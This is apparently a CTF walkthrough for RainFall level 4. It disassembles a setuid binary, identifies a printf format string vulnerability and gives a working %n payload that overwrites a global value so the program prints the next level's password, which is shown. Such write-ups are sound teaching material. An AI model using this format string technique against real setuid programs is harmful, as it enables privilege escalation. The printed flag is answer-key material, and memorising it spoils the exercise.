 # Level4

## Walkthrough

We list the files in the current home directory.

```bash
level4@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
-rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
-rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
level4@RainFall:~$ file ./level4
./level4: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf8cb2bdaa7daab1347b36aaf1c98d49529c605db, not stripped
```

The file is owned by **level5** and has the **setuid** bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  p
0x08048457  n
0x080484a7  main
0x080484c0  __libc_csu_init
0x08048530  __libc_csu_fini
0x08048532  __i686.get_pc_thunk.bx
0x08048540  __do_global_ctors_aux
0x0804856c  _fini
```

There are 3 user-defined functions: `main()`, `p()` and `n()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   ebp
   0x080484a8 <+1>:     mov    ebp,esp
   0x080484aa <+3>:     and    esp,0xfffffff0
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
```

The `main()` function calls the `n()` function.

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   ebp
   0x08048458 <+1>:     mov    ebp,esp
   0x0804845a <+3>:     sub    esp,0x218
   0x08048460 <+9>:     mov    eax,ds:0x8049804
   0x08048465 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>:    lea    eax,[ebp-0x208]
   0x08048477 <+32>:    mov    DWORD PTR [esp],eax
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    eax,[ebp-0x208]
   0x08048485 <+46>:    mov    DWORD PTR [esp],eax
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    eax,ds:0x8049810
   0x08048492 <+59>:    cmp    eax,0x1025544
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.

```

The `n()` function:
- calls `fgets()` to read user input and store it in `[ebp - 0x208]`
- calls the function `p()`
- retrieves the value stored at memory address `0x8049810` and compares it with `0x1025544`
- calls `system()` to execute `/bin/cat /home/user/level5/.pass` if the condition is met

```
Dump of assembler code for function p:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:     mov    DWORD PTR [esp],eax
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

The `p()` function calls `printf()` to print the `fgets()` buffer from `n()`.

Similar to the previous level, this function is vulnerable to a **format string attack** and the method to complete it will be the same. The only differences are the comparison with a higher number, and a deeper position of the format string in the stack due to the various function calls.

Do not hesitate to check the `README` for the previous level in order to understand the logic behind our solution.

```
(gdb) b printf
Breakpoint 1 at 0x8048340
(gdb) r
Starting program: /home/user/level4/level4 
AAAA

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) i r esp
esp            0xbffff3fc       0xbffff3fc
(gdb) x/16wx 0xbffff3fc
0xbffff3fc:     0x08048455      0xbffff430      0xb7ff26b0      0xbffff674
0xbffff40c:     0xb7fd0ff4      0x00000000      0x00000000      0xbffff638
0xbffff41c:     0x0804848d      0xbffff430      0x00000200      0xb7fd1ac0
0xbffff42c:     0xb7ff37d0      0x41414141      0xb7e2000a      0x00000001
```

```bash
python -c "print('\x10\x98\x04\x08' + '%8x' * 10 + '%16930032x' + '%n')" | ./level4
# [...]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
